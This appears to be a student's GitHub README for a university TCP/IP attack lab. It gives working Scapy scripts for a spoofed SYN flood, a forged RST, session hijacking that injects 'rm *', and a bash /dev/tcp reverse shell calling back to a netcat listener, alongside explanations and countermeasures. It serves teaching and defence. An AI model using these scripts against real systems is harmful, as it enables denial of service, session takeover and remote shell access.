

# 🛡️ TCP/IP Attack Lab

<div align="center">



[](https://nu.edu.pk)
[](.)
[](https://scapy.net)
[](https://wireshark.org)
[](.)

**Hands-on exploitation of TCP/IP protocol vulnerabilities in a controlled lab environment**

*FAST–NUCES Islamabad · Department of Cyber Security · Applied Network Security*

[Task 1: SYN Flood](#-task-1-syn-flooding-attack) · [Task 2: RST Attack](#-task-2-tcp-rst-attack) · [Task 3: Session Hijack](#-task-3-tcp-session-hijacking) · [Task 4: Reverse Shell](#-task-4-reverse-shell-via-session-hijacking)

</div>

---

## 📋 Overview

This lab demonstrates **four critical TCP/IP attacks** using Scapy and Wireshark, exposing fundamental design vulnerabilities in the TCP protocol stack. All attacks were conducted in an isolated Docker-based virtual lab environment.

> ⚠️ **Disclaimer**: All experiments were performed in a controlled, isolated lab environment for educational purposes only. Never attempt these attacks on unauthorized systems.

### 🧪 Lab Environment

```
┌─────────────────────────────────────────────────────────────────┐
│                        Docker Network (10.9.0.0/24)             │
│                                                                  │
│   ┌───────────────┐    ┌───────────────┐    ┌───────────────┐   │
│   │   Attacker    │    │    Victim     │    │    Server     │   │
│   │  10.9.0.1     │◄──►│  10.9.0.5     │◄──►│  10.9.0.6     │   │
│   │  (seed VM)    │    │  (seed VM)    │    │  (seed VM)    │   │
│   └───────────────┘    └───────────────┘    └───────────────┘   │
│                                                                  │
│   Tools: Scapy · Wireshark · netstat · netcat · gcc             │
└─────────────────────────────────────────────────────────────────┘
```

### 📊 Attack Summary

| # | Attack | Target | Result | Vulnerability | Countermeasure |
|---|--------|--------|--------|--------------|----------------|
| 1.1 | SYN Flood (Python) | Telnet Port 23 | ✅ DoS Achieved | Pre-auth resource allocation | SYN Cookies |
| 1.2 | SYN Flood (C) | Telnet Port 23 | ✅ Definitive DoS | Same + 50–100× speed | SYN Cookies |
| 1.3 | SYN Cookies Defense | — | 🛡️ Attack Defeated | N/A | `tcp_syncookies=1` |
| 2 | TCP RST Attack | Live Telnet Session | ✅ Session Killed | Sequence-only validation | TCP-MD5 / IPsec |
| 3 | Session Hijacking | Authenticated Session | ✅ Command Injected | No post-handshake auth | SSH / TLS |
| 4 | Reverse Shell | Active Session | ✅ Full Shell Access | Extension of Task 3 | SSH + egress rules |

---

## 🔴 Task 1: SYN Flooding Attack

### Background

TCP's three-way handshake (`SYN → SYN-ACK → ACK`) requires the server to allocate memory for every incoming `SYN` **before verifying the source IP is real**. An attacker floods the server with spoofed `SYN` packets from random IPs — filling the backlog queue entirely, blocking all legitimate connections.

```
Normal Handshake:          SYN Flood Attack:
                           
Client    Server           Attacker (Spoofed IPs)    Server
  │─ SYN ────►│              │─ SYN (1.2.3.4) ──────►│ [QUEUE SLOT 1]
  │◄─ SYN-ACK─│              │─ SYN (5.6.7.8) ──────►│ [QUEUE SLOT 2]
  │─ ACK ────►│              │─ SYN (9.10.11.12) ───►│ [QUEUE SLOT 3]
  │ ESTABLISHED│              │─ SYN (random...) ────►│ [QUEUE FULL ❌]
                              
                           Legitimate User ──SYN──►│ [NO SLOT — DROPPED]
```

### Task 1.1 — SYN Flood Using Python (Scapy)

**Setup: Disable SYN Cookies**

```bash
sysctl -w net.ipv4.tcp_syncookies=0
# net.ipv4.tcp_syncookies = 0
```

**Attack Script** → [`scripts/synflood.py`](scripts/synflood.py)

```python
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
import random, _thread

def attack():
    while True:
        pkt = IP(dst="10.9.0.5") / TCP(dport=23, flags='S')
        pkt['IP'].src = str(IPv4Address(random.getrandbits(32)))
        pkt['TCP'].sport = random.getrandbits(16)
        pkt['TCP'].seq = random.getrandbits(32)
        send(pkt, verbose=0)

for i in range(0, 100):        # 100 threads compensate for Python's GIL
    _thread.start_new_thread(attack, ())
while True:
    pass
```

**Screenshots**

| Step | Screenshot | Description |
|------|-----------|-------------|
| Setup |  | Disabling SYN cookies; backlog size = 256 |
| Script |  | Scapy SYN flood script with 100 threads |
| Launch |  | Executing the flood on 10.9.0.5:23 |
| Impact |  | Legitimate Telnet hangs — backlog saturated |
| Proof |  | `netstat` shows all slots in `SYN_RECV` state |
| Existing |  | Already-established connections are unaffected |

**Key Finding**: The server's backlog (`256` slots, ~192 usable) fills completely with spoofed half-open connections. Every `SYN_RECV` entry represents an ACK that will never arrive, consuming a queue slot until `tcp_synack_retries` timeout.

---

### Task 1.2 — SYN Flood Using C (50–100× Faster)

**Why C destroys Python here:**

| Factor | Python | C |
|--------|--------|---|
| Execution | Interpreted (CPython) | Compiled to native machine code |
| Threading | GIL prevents true parallelism | Native OS threads on all cores |
| Packet Send Speed | ~thousands/sec | ~millions/sec |
| Queue Saturation | Occasional gaps | **Continuous, no gaps** |

**Compile & Run** → [`scripts/synflood.c`](scripts/synflood.c)

```bash
gcc -o synflood synflood.c
./synflood 10.9.0.5 23
```

| Step | Screenshot | Description |
|------|-----------|-------------|
| Source |  | Raw socket implementation bypassing OS TCP stack |
| Compile |  | `gcc -o synflood synflood.c` |
| Launch |  | `./synflood 10.9.0.5 23` flooding at CPU speed |
| Saturation |  | `netstat` — entire backlog filled instantly |
| Timeout |  | Telnet: `Connection timed out` — more definitive than Python |

---

### Task 1.3 — SYN Cookie Countermeasure

**How SYN Cookies eliminate the attack:**

```
Without SYN Cookies:              With SYN Cookies:
Server receives SYN               Server receives SYN
  └─► Allocate backlog slot   ──► └─► Encode state into SYN-ACK SEQ#
  └─► Wait for ACK            ──► └─► Send SYN-ACK (no memory used)
  └─► Memory consumed         ──► └─► Spoofed IP never replies = no cost
                                  └─► Real client ACKs = decode cookie = connect ✓
```

```bash
sysctl -w net.ipv4.tcp_syncookies=1
# net.ipv4.tcp_syncookies = 1
```

| Step | Screenshot | Description |
|------|-----------|-------------|
| Enable |  | Enabling SYN cookies via `sysctl` |
| C Flood Running |  | Same C flood running at full speed |
| Defense |  | Legitimate Telnet **connects successfully** despite active flood |

✅ **Result**: Attack completely neutralized. The cryptographic cookie validates real clients without ever consuming backlog memory.

---

## 🔴 Task 2: TCP RST Attack

### Background

TCP's RST flag **immediately terminates a connection** when received with a sequence number in the receiver's window. Since TCP provides **zero authentication** for RST packets beyond sequence number checking, any on-path attacker who can sniff traffic can forge a valid RST.

```
Attack Flow:
                                                    
  [Victim 10.9.0.5] ◄──── Active Telnet ────► [Server 10.9.0.6]
         │                                           │
         │  ←─ Wireshark sniffs: SEQ=2261858712 ─►  │
         │                                           │
  [Attacker 10.9.0.1]                                │
         │                                           │
         └──── Forged RST (src=10.9.0.6,  ─────────►│
               seq=2261858733, flags='R')             │
                                                      │
  Result: Server sends RST ──────────────────────►   │
  Victim sees: "Connection closed by foreign host"   
```

**Attack Script** → [`scripts/tcprst.py`](scripts/tcprst.py)

```python
from scapy.all import *

# Values extracted from Wireshark live capture
ip  = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=23, dport=38462, flags="R", seq=2261858733)
pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```

| Step | Screenshot | Description |
|------|-----------|-------------|
| Session |  | Active Telnet session from 10.9.0.5 → 10.9.0.6 |
| Wireshark |  | Sniffing live traffic — extracting SEQ=2261858712 |
| Script |  | Forged RST packet construction |
| Execute |  | Scapy confirms RST flag set, packet sent |
| Result |  | `Connection closed by foreign host` |

✅ **Result**: A single forged packet terminated a live, authenticated session. **TCP provides no authentication against in-path adversaries.**

---

## 🔴 Task 3: TCP Session Hijacking

### Background

Session hijacking goes beyond RST — instead of *killing* a session, the attacker **injects arbitrary commands** into it. Since TCP has **no post-handshake message authentication**, a spoofed packet with correct `src IP`, `sport`, `seq`, and `ack` is **indistinguishable from legitimate data** to the server.

```
Hijacking Flow:

[Victim 10.9.0.5]──── Telnet (authenticated) ────[Server 10.9.0.6]
       ▲                                                  ▲
       │  Wireshark: sport=39676 seq=2537671292          │
       │            ack=963565695                         │
       │                                                  │
[Attacker 10.9.0.1]                                       │
       │                                                  │
       └──── Spoofed packet: ────────────────────────────►│
             src=10.9.0.5                                  │
             payload="\r rm *\n\r"    ← executes on server│
             seq=2537671292                                │
             ack=963565695                                 │
                                                          │
Result: myfile.txt deleted. Victim session desynced/frozen.
```

**Attack Script** → [`scripts/tcpsessionhijack.py`](scripts/tcpsessionhijack.py)

```python
from scapy.all import *

ip   = IP(src="10.9.0.5", dst="10.9.0.6")
tcp  = TCP(sport=39676, dport=23, flags="A",
           seq=2537671292, ack=963565695)
data = '\r rm *\n\r'   # \r clears partial input, \n submits command
pkt  = ip / tcp / data
ls(pkt)
send(pkt, verbose=0)
```

| Step | Screenshot | Description |
|------|-----------|-------------|
| Prep |  | `touch myfile.txt` — target for injected `rm *` |
| Session |  | Authenticated Telnet session to hijack |
| Wireshark |  | Extracting sport/seq/ack from live traffic |
| Script |  | Session hijack script with `rm *` payload |
| Execute |  | Scapy confirms payload `b'\r rm *\n\r'` sent |
| Wireshark |  | Wireshark confirms injected packet + desync retransmissions |
| Result |  | `ll` shows `total 0` — `myfile.txt` deleted |

✅ **Result**: Remote command executed without knowing the user's password. The legitimate session froze due to sequence number desynchronization.

---

## 🔴 Task 4: Reverse Shell via Session Hijacking

### Background

A **reverse shell** provides a persistent, interactive terminal — not just a single command. The victim machine *calls back* to the attacker, bypassing inbound firewall rules. All I/O is tunneled through a single TCP connection.

```
Reverse Shell Architecture:

[Attacker 10.9.0.1]          [Victim 10.9.0.6]
  nc -lv 9090 ◄───── bash ────── /bin/bash -i
  (listener)         I/O         > /dev/tcp/10.9.0.1/9090
                    stream        2>&1 0<&1
  
  stdin  ──────────────────────────────► shell input
  stdout ◄──────────────────────────── shell output  
  stderr ◄──────────────────────────── error output
```

**Injected Payload:**
```bash
/bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1
#           │   └── stdout → TCP socket       │
#           │                  2>&1 ──── stderr joins stdout
#           └── interactive    0<&1 ──── stdin from socket
```

**Attack Script** → [`scripts/tcpreverseshell.py`](scripts/tcpreverseshell.py)

```python
from scapy.all import *

ip   = IP(src="10.9.0.5", dst="10.9.0.6")
tcp  = TCP(sport=39714, dport=23, flags="A",
           seq=1810434171, ack=9935746)
data = '\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \n'
pkt  = ip / tcp / data
ls(pkt)
send(pkt, verbose=0)
```

| Step | Screenshot | Description |
|------|-----------|-------------|
| Session |  | Fresh Telnet session to hijack |
| Monitor |  | sport=39714, seq=1810434171, ack=9935746 |
| Script |  | Reverse shell injection script |
| Listener |  | `nc -lv 9090` waiting for callback |
| Execute |  | Scapy sends reverse shell command |
| Shell! |  | `ifconfig` confirms shell on 10.9.0.6 |
| Wireshark |  | Complete attack chain visible in Wireshark |

✅ **Result**: Full interactive shell on victim machine from a single injected TCP packet. No password. No exploits. No malware. **Pure TCP protocol abuse.**

---

## 🧰 Scripts Reference

| Script | Language | Attack | Usage |
|--------|----------|--------|-------|
| [`synflood.py`](scripts/synflood.py) | Python | SYN Flood | `python3 synflood.py` |
| [`synflood.c`](scripts/synflood.c) | C | SYN Flood (fast) | `gcc -o sf synflood.c && ./sf <ip> <port>` |
| [`tcprst.py`](scripts/tcprst.py) | Python | RST Attack | `python3 tcprst.py` |
| [`tcpsessionhijack.py`](scripts/tcpsessionhijack.py) | Python | Session Hijack | `python3 tcpsessionhijack.py` |
| [`tcpreverseshell.py`](scripts/tcpreverseshell.py) | Python | Reverse Shell | `python3 tcpreverseshell.py` |

---

## 🧠 Key Takeaways

```
TCP Fundamental Design Gaps (Circa 1981):
┌──────────────────────────────────────────────────────────────────────┐
│                                                                      │
│  1. No source IP verification before allocating server resources     │
│     └─► Enables SYN Flooding                                         │
│                                                                      │
│  2. RST packets validated only by sequence number — not by identity  │
│     └─► Enables TCP RST Attacks                                      │
│                                                                      │
│  3. No per-packet authentication after the 3-way handshake           │
│     └─► Enables Session Hijacking & Reverse Shells                   │
│                                                                      │
│  4. Protocol designed for reliability in TRUSTED networks,           │
│     not adversarial environments                                     │
│                                                                      │
└──────────────────────────────────────────────────────────────────────┘

Modern Mitigations:
  SYN Flooding  ──►  SYN Cookies (RFC 4987)
  RST Attacks   ──►  TCP-MD5 (RFC 2385), IPsec
  Hijacking     ──►  SSH, TLS 1.3 (replaces Telnet entirely)
  All of above  ──►  Use encrypted, authenticated protocols
```

---

## 📁 Repository Structure

```
tcp-attack-lab/
├── README.md                          ← You are here
├── scripts/
│   ├── synflood.py                    ← Python SYN flood (Scapy)
│   ├── synflood.c                     ← C SYN flood (raw sockets)
│   ├── tcprst.py                      ← TCP RST attack
│   ├── tcpsessionhijack.py            ← Session hijacking
│   └── tcpreverseshell.py             ← Reverse shell injection
├── screenshots/
│   ├── task1-syn-flood/               ← 14 screenshots
│   ├── task2-rst-attack/              ← 5 screenshots
│   ├── task3-session-hijacking/       ← 7 screenshots
│   └── task4-reverse-shell/           ← 7 screenshots
└── docs/
    └── TCP_IP_Attack_Lab_Report.pdf   ← Full lab report
```

---

## 👤 Author

**Muhammad Ahmad** — Roll No. 25I-7705  
Department of Cyber Security, FAST–NUCES Islamabad  
Course: Applied Network Security | Instructor: Sir Zafar

---

<div align="center">

*Built with Scapy · Wireshark · Linux · Raw Sockets*

</div>
